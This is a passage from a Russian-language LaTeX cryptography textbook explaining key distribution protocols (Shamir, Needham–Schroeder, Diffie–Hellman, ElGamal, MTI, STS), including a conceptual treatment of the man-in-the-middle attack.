Электронная подпись вычисляется от всех полей сертификата, кроме самого значения подписи.



\chapter{Распространение ключей}\index{протокол!распространения ключей}\label{chapter-key-distribution-protocols}
\selectlanguage{russian}

Задачей распространения ключей между двумя пользователями является создание секретных псевдослучайных сеансовых ключей шифрования и аутентификация сообщений. Пользователи предварительно создают и обмениваются ключами аутентификации один раз. В дальнейшем для создания защищённой связи пользователи производят взаимную аутентификацию и вырабатывают сеансовые ключи\index{ключ!сеансовый}.

\section{russian}[Трехэтапный протокол Шамира]{Трехэтапный протокол Шамира на коммутативных шифрах}

Предположим, что две стороны $A$ и $B$ соединены незащищенным каналом связи. Каждая из этих сторон имеет свой секретный ключ: $A$ имеет ключ $K_1$, $B$ имеет ключ $K_2$. Сторона $A$ должна создать общий секретный ключ $K$ и передать стороне $B$.

Для решения этой задачи используют трехэтапный протокол Шамира  с тремя <<замками>>. \textbf{Протокол Шамира}\index{протокол!Шамира} построен на  \emph{коммутативных} функциях шифрования, для которых выполняется условие:
    \[ E_{K_{2}} (E_{K_{1}}(K))=E_{K_{1}} (E_{K_{2}}(K)). \]

Протокол предполагает следующие процедуры.
\begin{enumerate}
    \item $A$ создает секретный ключ $K$, шифрует его своей системой шифрования с помощью своего ключа $K_A$ и посылает сообщение стороне $B$:
        \[ A \rightarrow B: ~ E_{K_A}(K). \]
    \item $B$ получает это сообщение, шифрует его с помощью своего ключа $K_B$ и посылает сообщение стороне $A$:
        \[ A \leftarrow B: ~ E_{K_B}( E_{K_A}( K)). \]
    \item Сторона $A$, получив сообщение $E_{K_B}(E_{K_A}(K))$, использует  свой секретный ключ $K_A$ для расшифрования:
            \[ D_{K_A} E_{K_B} (E_{K_A}(K)) = E_{K_B}(K). \]
        Сторона $A$ передает стороне $B$ сообщение:
        \[ A \rightarrow B: ~ E_{K_B}(K). \]
    \item Сторона $B$, получив сообщение $E_{K_B}(K)$, использует свой секретный ключ $K_B$ для расшифрования:
            \[ D_{K_B}(E_{K_B}(K)) = K. \]
        В результате стороны получают общий секретный ключ $K$.
\end{enumerate}

Приведем пример неудачного шифрования с использованием коммутативных функций.

\begin{enumerate}
    \item $A$ имеет функцию шифрования совершенной секретности $E_{K_A}(K) = K \oplus K_A$, где $K_A$ -- двоичная последовательность с равномерным распределением символов. $A$ посылает это сообщение стороне $B$:
            \[ A \rightarrow B: ~ E_{K_A}(K) = K \oplus K_A. \]
    \item $B$ использует такую же функцию шифрования совершенной секретности с ключом $K_B$ (двоичная последовательность с равномерным распределением символов). $B$ шифрует полученное сообщение и отправляет $A$:
            \[ A \leftarrow B: ~ E_{K_A}(K) \oplus K_B = K \oplus K_A \oplus K_B, \]
    \item Сторона $A$, получив сообщение $K \oplus K_A \oplus K_B$, выполняет расшифрование:
            \[ K \oplus K_A \oplus K_B \oplus K_A = K \oplus K_B. \]
        Сторона $A$ передает стороне $B$ сообщение:
            \[ A \rightarrow B: ~ K \oplus K_B. \]
    \item Сторона $B$, получив сообщение $K \oplus K_B$, выполняет расшифрование:
            \[ K \oplus K_B \oplus K_B = K. \]
        Обе стороны получают общий секретный ключ $K$.
\end{enumerate}

Предложенный выбор коммутативной функции шифрования совершенной секретности был назван неудачным, так как существуют ситуации, при которой криптоаналитик может определить ключ $K$. Предположим, что криптоаналитик перехватил все три сообщения:
    \[ K \oplus K_A, ~~ K \oplus K_A \oplus K_B, ~~ K \oplus K_B. \]
Сложение по модулю 2 всех трех сообщений дает ключ $K$. Поэтому такая система шифрования не применяется.

Теперь приведем протокол надежной  передачи секретного ключа, основанный на экспоненциальной (коммутативной) функции шифрования. Стойкость этого протокола связана с трудной задачей -- задачей вычисления дискретного логарифма: известны значения $y, g, p$, найти $x$ в уравнении $y = g^x \mod p$.

\textbf{Протокол Шамира распространения ключей}
Выбирают большое простое число $p\sim 2^{1024}$ и используют его как открытый ключ.

\begin{enumerate}
    \item Сторона $A$ задает общий секретный ключ $K <p$ и выбирает целое число $a$, взаимно простое с $p-1$. $A$ вычисляет и посылает стороне $B$:
            \[ A \rightarrow B: ~ K^a \mod p. \]
        Существует число $c$, такое, что $a c =1 \mod (p-1)$, то есть $a c = 1 + l (p-1)$, где $l$ -- целое число. Число $c$ будет использовано стороной $A$ на следующем этапе.
    \item Сторона $B$ выбирает целое число $b$, взаимно простое с $p-1$, используя полученное сообщение, вычисляет и посылает сообщение стороне $A$:
            \[ A \leftarrow B: ~ (K^a)^b \mod p. \]
    \item Сторона $A$, получив сообщение, вычисляет
        \[ \left( K^{ab} \right)^c = K^{1 + l (p-1) b} = K^b \cdot K^{l (p-1) b} = K^b \mod p. \]
        Здесь применена теорема Ферма: $K^{p-1} = 1 \mod p$, поэтому $\left( K^{p-1} \right)^{lb} = 1 \mod p$.
        $A$ посылает $B$ сообщение:
            \[ A \rightarrow B: ~ K^b \mod p. \]
    \item Сторона $B$, получив сообщение $K^{b}\mod p$, вычисляет
        \[ (K^b \mod p)^d = K^{bd} \mod p = K. \]
\end{enumerate}

Теперь проверим криптостойкость этого протокола. Предположим, что криптоаналитик перехватил три сообщения
\[ \begin{array}{l}
    y_1 = K^a \mod p, \\
    y_2 = K^{ab} \mod p, \\
    y_3 = K^b \mod p. \\
\end{array} \]
Чтобы найти ключ $K$, надо решить систему из этих трех уравнений, что имеет очень большую вычислительную сложность, неприемлемую с практической точки зрения, если все три числа $a, b, ab$ достаточно велики. Предположим, что $a$ (или $b$) мало. Тогда вычисляя последовательные степени $y_3$ (или $y_1$) можно найти  $a$ (или $b$) , сравнивая результат с $y_2$. Зная $a$ легко найти $a^{-1}\mod(p-1)$ и $K=(y_1)^{a^{-1}}\mod p$.

Недостатком этого протокола является отсутствие аутентификации сторон. Следовательно, нужно дополнительно использовать цифровую подпись при передаче сообщения.


\section{Симметричные протоколы}

\subsection{Аутентификация и атаки воспроизведения}

Рассмотрим такую ситуацию: обе стороны $A$ и $B$ имеют общий долговременный ключ $K_{AB}$ и симметричную систему шифрования. Нужно выработать сеансовый секретный ключ $K$. Сторона $A$ создаёт ключ $K$ и желает его передать стороне $B$.

\begin{enumerate}
    \item Для этого сторона $A$ с помощью общего ключа $K_{AB}$ создаёт и передаёт $B$ шифрованное сообщение:
            \[ A \rightarrow B: ~ E_{K_{AB}}(K, B, A). \]
        В этом сообщении имеются так называемые поля -- $(B,A)$ -- информация для дополнительного подтверждения.
    \item Сторона $B$, используя общий ключ $K_{AB}$, расшифровывает полученное сообщение:
            \[ D_{K_{AB}}( E_{K_{AB}}( K, B, A)) = (K, B, A). \]
        В результате сторона $B$ получает сеансовый ключ $K$ и дополнительные данные $(B,A)$.
\end{enumerate}

Недостаток этого протокола состоит в том, что криптоаналитик может перехватывать сообщения и через некоторое время переслать их стороне $A$.

Рассмотрим другие варианты решения задачи о передаче сеансового ключа.
Задача остаётся прежней: обе стороны $A$ и $B$ имеют общий долговременный секретный ключ $K_{AB}$, сторона $A$ должна выработать сеансовый секретный ключ $K$ и доставить его стороне $B$.

Протокол включает \textbf{метки времени} -- информацию о моменте $t_A$ отправки сообщения и моменте получения сообщения $t_B$.

\begin{enumerate}
    \item Сторона $A$ вырабатывает $K$ и с помощью долговременного ключа $K_{AB}$ создаёт шифрованное сообщение с меткой времени $t_A$ и передаёт его стороне $B$:
            \[ A \rightarrow B: ~ E_{K_{AB}}(K, t_A). \]
    \item Сторона $B$ получает сообщение и расшифровывает его с помощью общего ключа:
            \[ D_{K_{AB}}( E_{K_{AB}}( K, t_A)) = (K, t_A). \]
        В результате $B$ получает $(K, t_A)$, то есть секретный ключ и метку времени. $B$ измеряет время прихода $t_B$ и интервал запаздывания. Если $|t_B - t_A| \le \delta$, то $B$ аутентифицирует $A$.
\end{enumerate}
Метка времени является одноразовой меткой и защищает от атак воспроизведения ранее записанных сообщений.

Рассмотрим другой способ передачи ключа с дополнительной информацией в виде \textbf{одноразовых случайных меток} (nonce -- number used once) вместо меток времени. Протокол передачи состоит в следующем.

\begin{enumerate}
    \item Сторона $A$ вырабатывает случайное число $r_A$, шифрует сообщение, в котором $(r_A, A)$ -- реквизиты $A$, и передаёт его стороне $B$:
            \[ A \rightarrow B: ~ E_{K_{AB}}(r_A, A). \]
    \item Сторона $B$ вырабатывает сеансовый ключ $K$, создаёт шифрованное сообщение и посылает его $A$:
            \[ A \leftarrow B: ~ E_{K_{AB}}(K, r_A, A). \]
    \item Сторона $A$ расшифровывает полученное сообщение:
            \[ D_{K_{AB}}( E_{K_{AB}}( K, r_A, A)) = (K, r_A, A). \]
        В результате $A$ получает сеансовый ключ и подтверждение своих реквизитов, что является дополнительной аутентификацией.
\end{enumerate}

Предположим, что сторона $B$ тоже желает убедиться, что имеет дело со стороной $A$. Тогда этот протокол следует дополнить передачей реквизитов $B$. По-прежнему считаем, что у $A$ и $B$ общая система шифрования с долговременным секретным ключом $K_{AB}$.

\begin{enumerate}
    \item Сторона $A$ вырабатывает случайное число $r_A$, шифрует и передаёт стороне $B$ сообщение, в котором $(r_A, A)$ -- реквизиты $A$:
            \[ A \rightarrow B: ~ E_{K_{AB}}(r_A, A). \]
    \item Сторона $B$ вырабатывает случайное число $r_B$ и отправляет стороне $A$ зашифрованное сообщение:
            \[ A \leftarrow B: ~ E_{K_{AB}}(K_B, r_B, r_A, A), \]
        где $K_B$ -- ключ $B$.
     \item Сторона $A$ осуществляет расшифрование
            \[ D_{K_{AB}}(E_{K_{AB}}(K_B, r_B, r_A, A)) = (K_B, r_B, r_A, A) \]
        и получает ключ $K_B$ и реквизиты $r_B, r_A, A$. Для аутентификации себя сторона $A$ создаёт свой ключ $K_A$ и отправляет стороне $B$ шифрованное сообщение
            \[ A \rightarrow B: ~ E_{K_{AB}}(K_A, r_B, r_A, B). \]
     \item Сторона $B$ осуществляет расшифрование
            \[ D_{K_{AB}}(E_{K_{AB}}(K_A, r_B, r_A, B)) = (K_A, r_B, r_A, B), \]
        которое определяет ключ $K_A$ и аутентифицирует $A$.
\end{enumerate}

Таким образом, обе стороны имеют в своём распоряжении ключи $K_A, K_B$ в качестве сеансовых секретных ключей.

\subsection{Протокол с ключевым кодом аутентификации}

При использовании хэш-функции $K = h(K_{A} ~\|~ K_{B})$ происходит усиление секретности. Здесь $(K_{A} ~\|~ K_{B})$ -- конкатенация $K_{A} $ и $K_{B}$.

% Достоинства: предположим, $K_{A} ,K_{B} $ -- не обладают «хорошими» свойствами случайности (биты распределены неравномерно или зависимы друг от друга), т.~е., $P_{K_{A} ,K_{B} } (0)=\frac{1}{2} -\varepsilon $, где $\varepsilon $ - мало, но не 0. Тогда вероятность того, что этот бит в \emph{K }будет равным нулю, $P_{K} (0)=\frac{1}{2} -\varepsilon ',\varepsilon '<\varepsilon $- усиление секретности.

Вычисление хэш-значения, как правило, выполняется быстрее, чем расшифрование. Поэтому были разработаны протоколы, в которых вместо функции шифрования используется имитовставка\index{имитовставка} на основе хэш-функции ($\MAC_K$). Рассмотрим протокол такого рода.
\begin{enumerate}
    \item Сторона $A$ вырабатывает сеансовый ключ $K$, использует одноразовую метку $t_{A}$, создаёт и пересылает стороне $B$ сообщение:
            \[ A \rightarrow B: ~ t_A, ~ B, ~ K \oplus \MAC_{K_{AB}}( t_A, B), ~ \MAC_{K_{AB}}(K, t_A, B). \]
    \item Сторона $B$ вычисляет
            \[ \MAC_{K_{AB}}(t_A, B) \oplus K \oplus \MAC_{K_{AB}}(t_A, B) = K \]
        и получает сеансовый ключ $K$.
\end{enumerate}

Заметим, что криптоаналитик может добавить в поле случайную последовательность, тогда вместо $K$ получаем <<$K$ плюс помеха>>. Вмешательство криптоаналитика будет выявлено благодаря наличию четвёртого поля в сообщении. Используя полученное значение $K$, вычисляют $\MAC_{K_{AB}}(K, t_A, B)$ и сравнивают с четвёртым полем. Если совпадает, то вмешательства криптоаналитика не было.

\subsection{Протокол Нидхема~---~Шрёдера с доверенным центром}\index{протокол!Нидхема~---~Шрёдера}
\selectlanguage{russian}

Рассмотрим ситуацию, когда в сети имеется некоторый надёжный (доверенный) сервер (центр) $T$, которому доверяют все пользователи сети. Сервер для работы с абонентами сети использует некоторую систему шифрования $E_S(*)$, где ключ $S=K_{AT}$ известен только $A$ и $T$, но неизвестен остальным участникам сети, $S = K_{BT}$ известен только $B$ и $T$. Предполагаем, что сервер имеет хороший генератор случайных чисел. Сеансовый ключ сервер вырабатывает по запросу. Стороны $A$ и $B$ могут выбирать разные одноразовые метки.

Приведём в качестве примера упрощенную версию известного \textbf{протокола Нидхема~---~Шрёдера} (Needham~---~Schroeder) с симметричным шифром:
\begin{enumerate}
    \item Сторона $A$ передаёт серверу $T$ реквизиты сторон $A$ и $B$ и некую одноразовую метку $N_A$, которая может быть, например, меткой времени или случайным (одноразовым) числом, что оговаривается заранее:
            \[ A \rightarrow T: ~ A, B, N_A. \]
    \item Сервер $T$ вырабатывает секретный сеансовый ключ $K$ для $A$ и $B$ и отправляет стороне $A$ шифрованное сообщение:
            \[ A \leftarrow T: ~ E_{K_{AT}}(N_A, B, K, E_{K_{BT}}(K, A)). \]
    \item Сторона $A$ расшифровывает сообщение
            \[ D_{K_{AT}}( E_{K_{AT}}(N_A, B, K, E_{K_{BT}}(K, A))) = (N_A, B, K, E_{K_{BT}}(K, A)) \]
        и, чтобы доставить ключ, передаёт стороне $B$ сообщение:
            \[ A \rightarrow B: ~ E_{K_{BT}}(K, A). \]
    \item Сторона $B$ расшифровывает полученное сообщение
            \[ D_{K_{BT}}( E_{K_{BT}}( K,A)) = (K,A) \]
        и получает ключ и реквизиты $A$, которые требуются для того, чтобы сторона $B$ знала, кому отвечать. Кроме того, сторона $B$ дополнительно желает идентифицировать сторону $A$. Для этого $B$ пересылает $A$ зашифрованную одноразовую метку:
            \[ A \leftarrow B: ~ E_{K}(N_B). \]
    \item Сторона $A$ расшифровывает
            \[ D_K( E_K( N_B)) = N_B \]
        и возвращает $B$ изменённую одноразовую метку
            \[ A \rightarrow B: ~ E_K(N_B + 1). \]
    \item Сторона $B$ расшифровывает
            \[ D_K( E_K( N_B + 1)) = N_B + 1, \]
        проверяет $N_B$ и убеждается, что имеет дело со стороной $A$.
    \item Если требуется двусторонняя аутентификация, то аналогично поступают со стороной $A$: на некотором этапе вносится одноразовая метка $N_A$.
\end{enumerate}


\section{Асимметричные протоколы}

Асимметричные протоколы, или же протоколы, основанные на криптосистемах с открытыми ключами, позволяют ослабить требования к предварительному этапу протоколов. Вместо общего секретного ключа, который должны иметь две стороны (либо обе стороны и доверенный центр), в рассматриваемых ниже протоколах стороны должны предварительно обменяться открытыми ключами (между собой либо между собой и доверенным центром). Такой предварительный обмен может проходить по открытому каналу связи, в предположении, что криптоаналитик не может повлиять на содержимое канала связи на данном этапе.

\subsection{Простой протокол}

Рассмотрим протокол распространения ключей с помощью асимметричных шифров. Введём обозначения: $K_B$ -- открытый ключ стороны $B$, а $K_A$ -- открытый ключ стороны $A$. Протокол включает три сеанса обмена информацией.
\begin{enumerate}
    \item В первом сеансе сторона $A$ посылает стороне $B$ сообщение
            \[ A \rightarrow B: ~ E_{K_B}(K_1, A), \]
        где $K_1$ -- ключ, выработанный стороной $A$.
    \item Сторона $B$ получает $(K_1, A)$ и передаёт стороне $A$ наряду с другой информацией свой ключ $K_2$ в сообщении, зашифрованном с помощью открытого ключа $K_A$:
            \[ A \leftarrow B: ~ E_{K_A}(K_2, K_1, B). \]
    \item Сторона $A$ получает и расшифровывает сообщение $(K_2, K_1, B)$. Во время третьего сеанса сторона $A$, чтобы подтвердить, что она знает ключ $K_2$, посылает стороне $B$ сообщение:
            \[ A \rightarrow B: ~ E_{K_B}(K_2). \]
\end{enumerate}
Общий ключ формируется из двух ключей: $K_1$ и $K_2$.

\subsection{Протоколы с цифровыми подписями}

Существуют протоколы обмена, в которых перед началом обмена ключами генерируются подписи сторон $A$ и $B$, соответственно $S_A(m)$ и $S_B(m)$. В этих протоколах можно использовать различные одноразовые метки. Рассмотрим пример:
\begin{enumerate}
    \item Сторона $A$ выбирает ключ $K$ и вырабатывает сообщение:
            \[ \left( K, ~ t_A, ~ S_A(K, t_A, B) \right), \]
        где $t_A$~--- метка времени. Зашифрованное сообщение передаёт стороне $B$:
        \[ A \rightarrow B: ~ E_{K_B}(K, ~ t_A, ~ S_A(K, t_A, B)). \]
    \item Сторона $B$ получает это сообщение, расшифровывает $\left( K, ~ t_A, ~ S_A(K, t_A, B) \right)$ и вырабатывает свою метку времени $t_B$. Проверка считается успешной, если $|t_B - t_A | < \delta $. Сторона $B$ знает свои реквизиты и может осуществлять проверку подписи.
\end{enumerate}

Имеется второй вариант протокола, в котором шифрование и подпись выполняются раздельно.
\begin{enumerate}
    \item Сторона $A$ вырабатывает ключ $K$, использует одноразовую метку (или метку времени) $t_{A}$ и передаёт стороне $B$ два различных зашифрованных сообщения
            \[ \begin{array}{ll}
                A \rightarrow B: & ~ E_{K_B}(K, t_A), \\
                A \rightarrow B: & ~ S_A(K, t_A, B). \\
            \end{array} \]
    \item Сторона $B$ получает это сообщение, расшифровывает $K, t_A$ и, добавив свои реквизиты $B$, может проверить подпись $S_A(K, t_A, B)$.
\end{enumerate}

В третьем варианте протокола сначала производится шифрование, потом подпись.
\begin{enumerate}
    \item Сторона $A$ вырабатывает ключ $K$, использует одноразовую случайную метку или метку времени $t_A$ и передаёт стороне $B$ сообщение:
        \[ A \rightarrow B: ~ t_A, ~ E_{K_B}(K, A), ~ S_A(t_A, ~ K, ~ E_{K_B}(K, A)). \]
    \item Сторона $B$ получает это сообщение, расшифровывает $\left( t_A, ~ K, ~ A, ~ E_{K_B}(K, A) \right)$ и проверяет подпись $S_A(t_A, ~ K, ~ E_{K_B}(K, A))$.
\end{enumerate}

\subsection{Протокол Диффи~---~Хеллмана}\index{протокол!Диффи~---~Хеллмана}
\selectlanguage{russian}

Алгоритм с открытым ключом впервые был предложен Диффи и Хеллманом в работе 1976 года <<Новые направления в криптографии>> (\langen{Bailey Whitfield Diffie, Martin Edward Hellman, ``New directions in cryptography''},~\cite{Diffie:Hellman:1976}).

Рассмотрим протокол Диффи~---~Хеллмана обмена информацией двух сторон $A$ и $B$. Задача состоит в том, чтобы создать общий сеансовый ключ.

Пусть $p$ -- большое простое число\index{число!простое}, $g$ -- примитивный элемент группы $\Z_p^*$, ~ $y = g^x \mod p$, причём $p,y,g$ известны заранее. Функцию $y=g^{x} \mod p$ считаем однонаправленной, то есть вычисление функции при известном значении аргумента является лёгкой задачей, а её обращение -- нахождение аргумента при известном значении функции -- трудной.

Протокол обмена состоит из следующих действий.
\begin{enumerate}
    \item Сторона $A$ выбирает случайное число $x: ~ 2 \leq x \leq p-1$, вычисляет и передаёт стороне $B$ сообщение:
        \[ A \rightarrow B: ~ g^x \mod p. \]
    \item Сторона $B$ выбирает случайное число $y: ~ 2\leq y \leq p-1$, вычисляет и передаёт стороне $A$:
        \[ A \leftarrow B: ~ g^y \mod p. \]
    \item Сторона $A$, используя известные ей значения $x$, $g^{y} \mod p$, вычисляет ключ:
        \[ K_{A} =(g^{y})^{x}\mod p=g^{xy} \mod p. \]
    \item Сторона $B$, используя известные ей значения $y$, $g^{x} \mod p$, вычисляет ключ:
        \[ K_{B} =(g^{x})^{y}\mod p=g^{xy}\mod p. \]
        В результате получаем равенство $K_A = K_B = K$.
\end{enumerate}

Таким способом создан общий секретный сеансовый ключ. В каждом новом сеансе используется этот же протокол для создания нового сеансового ключа.

Рассмотрим протокол Диффи~---~Хеллмана в ситуации, когда имеются три легальных пользователя $A,B,C$.

Каждая из сторон $A,B,C$ вырабатывает случайные числа $x,y,z$ соответственно и держит их в секрете.

\begin{enumerate}
    \item Первый этап обмена информацией аналогичен вышеописанному обмену информацией между двумя сторонами:
        \begin{enumerate}
            \item $A \rightarrow B: ~ g^x \mod p$.
            \item $B \rightarrow C: ~ g^y \mod p$.
            \item $C \rightarrow A: ~ g^z \mod p$.
        \end{enumerate}
    \item Второй этап состоит из передач сообщений:
        \begin{enumerate}
            \item $A \rightarrow B: ~ (g^z)^x = g^{zx} \mod p$.
            \item $B \rightarrow C: ~ (g^x)^y = g^{xy} \mod p$.
            \item $C \rightarrow A: ~ (g^y)^z = g^{yz} \mod p$.
        \end{enumerate}
    \item На завершающем третьем этапе стороны вычисляют:
        \begin{enumerate}
            \item $A: ~ K_A = (g^{yz})^x = g^{xyz} \mod p$.
            \item $B: ~ K_B = (g^{zx})^y = g^{xyz} \mod p$.
            \item $C: ~ K_C = (g^{xy})^z = g^{xyz} \mod p$.
        \end{enumerate}
\end{enumerate}

Как видно из произведённых действий, выработанные сторонами $A, B, C$ ключи совпадают: $K_A = K_B = K_C = K$. Следовательно, создан общий секретный сеансовый ключ $K$ для трёх участников.

Таким же образом можно построить протокол Диффи~---~Хеллмана для любого числа легальных пользователей.

Рассмотрим этот двусторонний протокол с точки зрения криптоаналитика, желающего узнать ключ $K$. Предположим, ему удалось перехватить сообщения $g^{x}\mod p$ и $g^{y}\mod p $. Используя заранее известные данные $g,p $ и эти сообщения, криптоаналитик старается найти хотя бы одно из чисел $(x,y)$, то есть решить задачу дискретного логарифма. В настоящее время эта задача считается вычислительно трудной при обычно выбираемых значениях $p\sim 2^{1024}$.

Существует атака активного криптоаналитика\index{криптоаналитик!активный}, названная <<человек посередине>> (man-in-the-middle)\index{атака!<<человек посередине>>}. Пусть имеются две легальные стороны $A$ и $B$ и нелегальная сторона $E$ -- активный криптоаналитик\index{криптоаналитик!активный}, который имеет возможность перехватывать и подменять сообщения как от $A$, так и от $B$:
    \[ A \leftrightsquigarrow E \leftrightsquigarrow B. \]
    %\[ A \leftrightarrow E \leftrightarrow B. \]

\begin{enumerate}
    \item Подмена ключей.
        \begin{enumerate}
            \item Сторона $A$ передаёт стороне $B$ сообщение:
                \[ A \overset{E}{\nrightarrow} B: ~ g^x \mod p. \]
            \item Сторона $E$ перехватывает сообщение $g^x \mod p$, сохраняет его и, зная $g$, передаёт стороне $B$ своё сообщение:
                \[ E \rightarrow B: ~ g^z \mod p. \]
            \item Сторона $B$ передаёт стороне $A$ сообщение:
                \[ A \overset{E}{\nleftarrow} B: ~ g^y \mod p. \]
            \item Сторона $E$ перехватывает сообщение $g^y \mod p$, сохраняет его и передаёт стороне $A$ своё сообщение:
                \[ A \leftarrow E: ~ g^z \mod p \]
                или какое-то другое.
            \item Таким образом, между сторонами $A$ и $E$ образуется общий секретный ключ $K_{AE}$, между $B$ и $E$ -- ключ $K_{BE}$, причём $A$ и $B$ не знают, что у них ключи со стороной $E$, а не друг с другом:
                \[ \begin{array} {l}
                    K_{AE} = g^{xz} \mod p, \\
                    K_{BE} = g^{yz} \mod p. \\
                \end{array} \]

        \end{enumerate}
    \item Подмена сообщений.
        \begin{enumerate}
            \item Сторона $A$ посылает $B$ сообщение $m$, зашифрованное на ключе $K_{AE}$:
                % \rightsquigarrow
                \[ A \overset{E}{\nrightarrow} B: ~ E_{K_{AE}}(m). \]
            \item Сторона $E$ перехватывает сообщение, расшифровывает с ключом $K_{AE}$, возможно, подменяет на $m'$, зашифровывает с ключом $K_{BE}$ и посылает $B$:
                \[ E \rightarrow B: ~ E_{K_{BE}}(m'). \]
            \item То же самое происходит при обратной передаче от $B$ к $A$.
        \end{enumerate}
\end{enumerate}

Криптоаналитик $E$ имеет возможность перехватывать и подменять все передаваемые сообщения. Если по тексту письма нельзя обнаружить участие криптоаналитика в обмене информацией, то атака <<человек посередине>>\index{атака!<<человек посередине>>} успешна.

Существует несколько протоколов для защиты от атаки этого типа.


%\section{Протоколы с аутентификацией}

\subsection{Односторонняя аутентификация}

\textbf{Протокол Эль-Гамаля}\index{протокол!Эль-Гамаля} относится к протоколам с аутентификацией одного из двух легальных пользователей.
\selectlanguage{russian}
\begin{enumerate}
    \item Для начала стороны выбирают общие параметры $p, g$, где $p$~--- большое простое число, а $g$ -- примитивный элемент поля $\Z_p^*$.
    \item Сторона $B$ создаёт свои закрытый и открытый ключи:
            \[ \SK_B = b, ~ \PK_B = g^b \mod p, \]
        $b$ -- случайное секретное число, $2 \leq b \leq p-1$.

        Открытый ключ $\PK_B$ находится в общем открытом доступе для всех сторон, поэтому криптоаналитик $E$ не может подменить его -- подмена будет заметна.
    \item Сторона $A$ вырабатывает свой секрет $x$, сеансовый ключ
            \[ K_A = (\PK_B)^x = g^{bx} \mod p \]
        и отправляет $B$:
            \[ A \rightarrow B: ~ g^x \mod p. \]
    \item Сторона $B$, получив от $A$ число $g^x \mod p$, использует его и свой секрет $\SK_B = b$, чтобы создать свой ключ
            \[ K_B = (g^x)^{\SK_B} = g^{bx} \mod p, \]
        то есть сеансовые ключи обеих сторон совпадают:
            \[ K_A = K_B = K. \]
\end{enumerate}

Достоинством этого протокола является следующее его свойство. Если ключи $K_A$ и $K_B$ совпали и стороны могут обмениваться информацией, то сторона $A$ аутентифицирует сторону $B$, так как для шифрования она использовала открытый ключ $B$, который не может быть незаметно подменён, и только сторона $B$ может расшифровывать сообщения.

Что касается криптоаналитика в качестве <<человека посередине>>, то он может отправлять ложные сообщения, но не может узнать ключ $K$ и читать сообщения.

Есть протоколы, в которых стороны, осуществляющие обмен информацией, являются равноправными. Они называются протоколами взаимной аутентификации.


\subsection{Взаимная аутентификация шифрованием}
\selectlanguage{russian}

К протоколам взаимной аутентификации принадлежит семейство протоколов, разработанных  Т. Мацумото (T. Matsumoto), И. Такашима (Y. Takashita) и Х. Имаи (H. Imai) и названных по первым буквам фамилий авторов -- \textbf{протокол MTI}\index{протокол!MTI}.

Здесь к открытым данным относятся
    \[ p, ~~ g, ~~ \PK_A = g^a \mod p, ~~ \PK_B = g^b \mod p. \]
Каждый пользователь $A$ и $B$ обладает парой  долговременных ключей для \emph{схемы шифрования с открытым ключом}: секретный ключ расшифрования $\SK$ и открытый ключ шифрования  $\PK$.
\[ \begin{array}{ll}
    A: & ~ \SK_A = a, ~~ \PK_A = g^a \mod p, \\
    B: & ~ \SK_B = b, ~~ \PK_B = g^b \mod p. \\
\end{array} \]

\textbf{протокол MTI}
\begin{enumerate}
    \item Сторона $A$ генерирует случайное число $x, ~ 2\leq x\leq p-1$, создает и отправляет $B$ сообщение:
        \[ A \rightarrow B: ~ g^x \mod p. \]
    \item Сторона $B$ генерирует случайное число $y, ~ 2\leq y\leq p-1$, создает и отправляет $A$ сообщение:
        \[ A \leftarrow B: ~ g^y \mod p. \]
    \item Сторона $A$, используя открытые данные и полученное сообщение, создает  сеансовый ключ:
        \[ K_A = (g^b)^x \cdot (g^y)^a = g^{bx+ay} \mod p. \]
    \item Сторона $B$, используя открытые данные и полученное сообщение, создает  сеансовый ключ:
        \[ K_B = (g^x)^b \cdot (g^a)^y = g^{bx+ay} \mod p. \]
        Сеансовые ключи обоих сторон совпадают:
        \[ K_{A} =K_{B} = K. \]
\end{enumerate}

В описанном протоколе происходит взаимная аутентификация сторон как и в протоколе Эль-Гамаля: открытые ключи сторон незаметно подменить невозможно. Наблюдая сообщения протокола, вычислить $g^{bx+ay}$ можно, только если известны значения $a,x$ или $b,y$, что представляет собой задачу дискретного логарифма, трудную в вычислительном смысле в настоящее время.


\subsection{Взаимная аутентификации схемой ЭЦП}
\selectlanguage{russian}

\textbf{Протокол STS (Station-To-Station)}\index{протокол!Station-To-Station} предназначен для систем мобильной связи. Он использует идеи протокола Диффи--Хеллмана и идеи системы RSA.

Здесь открытые общедоступные данные
    \[ p, ~ g, ~ \PK_A, ~ \PK_B. \]
Каждая из сторон $A$ и $B$ обладает долговременной парой ключей: секретным ключом подписания $\SK$ и открытым ключом проверки подписи $\PK$ для \emph{схемы ЭЦП}.
\[ \begin{array}{ll}
    A: & ~ \SK_A, ~~ \PK_A, \\
    B: & ~ \SK_B, ~~ \PK_B. \\
\end{array} \]
Подписи к сообщению $m$ сторон $A$ и $B$ имеют вид:
\[ \begin{array}{ll}
    A: & ~ S_A(m) = \textrm{ЭЦП}_{\SK_A}(H(m)), \\
    B: & ~ S_B(m) = \textrm{ЭЦП}_{\SK_B}(H(m)), \\
\end{array} \]
$H(m)$ -- криптографическая хэш-функция от сообщения $m$.

Протокол состоит из трех раундов обмена информацией между сторонами $A$ и $B$.
\begin{enumerate}
    \item Сторона $A$ создает секретное случайное число $2 \leq x \leq p-1$ и отправляет $B$:
            \[ A \rightarrow B: ~ g^x \mod p. \]
    \item Сторона $B$ создает секретное случайное число $2 \leq y \leq p-1$, вычисляет общий секретный ключ
            \[ K = (g^x)^y = g^{xy} \mod p, \]
        с помощью которого создает шифрованное сообщение $E_K(S_B(g^x, g^y))$ для аутентификации и отправляет $A$:
            \[ A \leftarrow B: ~ \left( g^y \mod p, ~~ E_K( S_B( g^x, g^y)) \right). \]
    \item Сторона $A$ с помощью $x, g^y \mod p$ вычисляет общий секретный ключ
            \[ K = (g^y)^x \mod p = g^{xy} \mod p \]
        и расшифровывает сообщение
            \[ D_K( E_K( S_B( g^x, g^y))) = S_B( g^x, g^y). \]
            Затем аутентифицирует сторону $B$, проверяя подпись $S_B$ открытым ключом $\PK_B$. Вычисляет и пересылает стороне $B$ сообщение:
            \[ A \rightarrow B: ~ E_K( S_A( g^x, g^y)). \]
    \item Сторона $B$ расшифровывает принятое сообщение
            \[ D_K( E_K( S_A( g^x, g^y))) = S_A( g^x, g^y) \]
        и осуществляет аутентификацию, выполняя проверку подписи $S_A$ с помощью открытого ключа $\PK_A$.
\end{enumerate}


\subsection{Взаимная аутентификация с доверенным центром}
\selectlanguage{russian}

В  \textbf{протоколе Жиро}\index{протокол!Жиро} (Marc Girault,~\cite{Girault:1990, Girault:1991}) участвуют три стороны: $A$, $B$ и надёжный центр $T$.
\begin{enumerate}
    \item У стороны $T$ есть открытый и закрытый ключи криптосистемы RSA\index{криптосистема!RSA},
        \[ n=pq, ~ e, ~ d=e^{-1} \mod \varphi(n) \]
